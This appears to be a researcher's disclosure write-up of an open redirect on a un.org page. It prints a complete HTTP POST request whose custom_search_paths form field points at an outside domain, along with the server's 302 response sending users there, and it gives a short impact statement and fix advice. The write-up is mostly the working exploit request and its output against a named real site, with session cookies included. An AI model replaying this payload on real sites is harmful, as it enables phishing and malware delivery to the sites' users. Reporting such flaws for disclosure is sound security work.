 #  Open Redirect On un.org
* `Exploit Author:` **Nguyen Phu Hung (d4rkp0w4r)**
* `Url vuln:` https://www.un.org/sg/en/global-leadership/home

![](https://i.imgur.com/wPonK36.png)
# Payload
* Request
```python=
POST /sg/en/global-leadership/home HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: SSESSe8bea8d1ed8440047996de4a00142329=bL70GWJjq8AxmGhy8_3-lXvJhGjRmuVIn4ZRhnl5idk; citrix_ns_id_.www.un.org_%2F_wlf=AAAAAAXsJ6Ae-yLZ4NLMRrQCOjVisYa6Nmr3owiMk4KAutLc5cRcFxuAP7pgsCTc9msvfij4p9lWva1HdzCKWEJfV4a7TX3qxA0OJ7EhMGCiddYTPHvxiamtIRwp17FquyhIeGvla2QpIcGJQd6nEXi6RYSE&; citrix_ns_id_.www.un.org_%2F_wat=AAAAAAVdO-U9HRucDJSPDirtqqCmqeilDrlUVWnkGpODkN6ddtEm4TlRl1ZzedW5bRS_QceNTpSj8x1qAEbcUa8QAIMy2_W0lO5CHjg1HQAIHnNj2oh_86jJMo0vcYyDz_BrPRIvvODlRwFbHFqWXEfwCN8c&
Content-Length: 174
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Host: www.un.org
Connection: Keep-alive

custom_search_paths=http://nangluongvico.com.vn/poc.html&form_build_id=form-8hF7N_zK7Go4ywHcTgCZNR6BL5gGUdP5OSASJJnFM9Y&form_id=search_block_form&op=Search&search_block_form=
```
* Response
```python=
HTTP/1.1 302 Found
Date: Sat, 23 Jul 2022 07:28:58 GMT
Server: Apache
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Cache-Control: no-cache, must-revalidate
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: SAMEORIGIN
From-Origin: same
Content-Language: en
Permissions-Policy: interest-cohort=()
Location: https://nangluongvico.com.vn/poc.html
Content-Length: 0
Keep-Alive: timeout=5, max=68
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Strict-Transport-Security: max-age=31536000; includeSubDomains
```
# Impact 
* A remote attacker can redirect users from your website to a specified URL. This problem may assist an attacker to conduct phishing attacks, trojan distribution, spammers.

# Fix
* Your script should properly sanitize user input.

# POC VIDEO
https://drive.google.com/file/d/1UrP42GP2Bm0qrj9lHhffWZlkE_jliKon/view?usp=sharing
